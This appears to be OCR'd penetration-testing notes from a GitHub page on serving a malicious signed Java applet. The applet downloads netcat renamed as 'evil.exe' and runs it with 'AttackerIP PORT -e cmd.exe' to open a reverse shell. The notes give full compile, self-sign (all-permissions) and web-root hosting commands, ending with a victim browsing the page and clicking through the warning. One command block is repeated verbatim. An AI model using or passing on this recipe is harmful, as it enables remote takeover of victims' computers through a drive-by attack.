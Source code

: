 # This Java applet will download a file and execute it.

**Change:** 
'<String expath = tmpdir + "evil.exe";>' 
//CHANGE ME if nc.exe name is different

'<f = Runtime.getRuntime().exec("cmd.exe /c " + expath + " AttackerIP PORT -e cmd.exe");>' 
//CHANGE ME
     

-[x] Compile code and then sign the java applet

    /usr/lib/jvm/java-8-openjdk-i386/bin/javac -source 1.7 -target 1.7 Java.java
    echo "Permissions: all-permissions" > /root/manifest.txt
    /usr/lib/jvm/java-8-openjdk-i386/bin/jar cvf Java.jar Java.class
    /usr/lib/jvm/java-8-openjdk-i386/bin/keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123

    /usr/lib/jvm/java-8-openjdk-i386/bin/jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedjar SignedJava.jar Java.jar signapplet

    cp Java.class SignedJava.jar /var/www/html/

-[x] Embed applet in an html file and write it to web root folder /var/www/html
    echo "Permissions: all-permissions" > /root/manifest.txt
    /usr/lib/jvm/java-8-openjdk-i386/bin/jar cvf Java.jar Java.class
    /usr/lib/jvm/java-8-openjdk-i386/bin/keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123

    /usr/lib/jvm/java-8-openjdk-i386/bin/jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedjar SignedJava.jar Java.jar signapplet

    cp Java.class SignedJava.jar /var/www/html/

-[x] Copy netcat to web root and rename it to an executable file 
    cp /usr/share/windows-binaries/nc.exe /var/www/html/evil.exe

-[x] From VictimUser browses java.html and reviews warning pop-up

